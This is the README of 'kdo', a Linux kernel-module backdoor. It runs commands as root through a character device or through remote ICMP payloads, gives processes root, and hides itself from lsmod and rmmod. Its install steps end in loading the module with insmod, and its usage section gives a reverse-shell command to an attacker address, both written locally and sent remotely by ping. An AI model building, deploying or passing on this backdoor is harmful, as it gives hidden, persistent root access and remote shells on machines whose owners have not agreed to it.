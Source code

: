 kdo
===
A "kernel sudo". This LKM creates a character device at `/dev/kdo` to which commands can be written
and executed via `call_usermodehelper`, effectively creating a backdoor  in userland. It also
registers an ICMP hook using netfilter to receive remote commands via ICMP payloads. Apart from
command execution, other convenient builtins are implemented as well. Default values can be modified
in `src/include/config.h`.

A Python script is provided to send the ICMP packet (`src/kdo-ping.py`). [Scapy](https://scapy.net/)
was used craft to it.


Features
--------
- `kdo-exec [argv]` \
Execute a command via call_usermodehelper.

- `kdo-root` \
Grant root privileges to the current process (set process ids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1.** Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2.** Build the module
```bash
cd kdo
make
```

**3.** Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Default values can be modified in `src/include/config.h`, such as the name of the created device
(`kdo` by default), the magic strings for the module's functionalities and the shell to execute
commands with. Logging can be enabled by defining the `DEBUG` symbol (undefined by default).


Usage
-----
Simply write to `/dev/kdo` or craft an ICMP request whose payload is a valid `kdo` command string.

Note that because the command execution backend inserts it's arguments as the last parameter for
`/bin/bash -c` (can be changed, see **Configuration**), shell functionalities such as redirection
are supported. For example, to spawn a reverse shell to `192.168.0.2:1337`, run in the target
machine:

```bash
echo 'kdo-exec bash -i >& /dev/tcp/192.168.0.2/1337 2>&1 0>&1' > /dev/kdo
```

To do the same thing remotely, send a ping from the attacker side with the same string as payload:

```bash
sudo python src/kdo-ping.py -t 192.168.0.3 'kdo-exec bash -i >& /dev/tcp/192.168.0.2/1337 2>&1 0>&1'
```
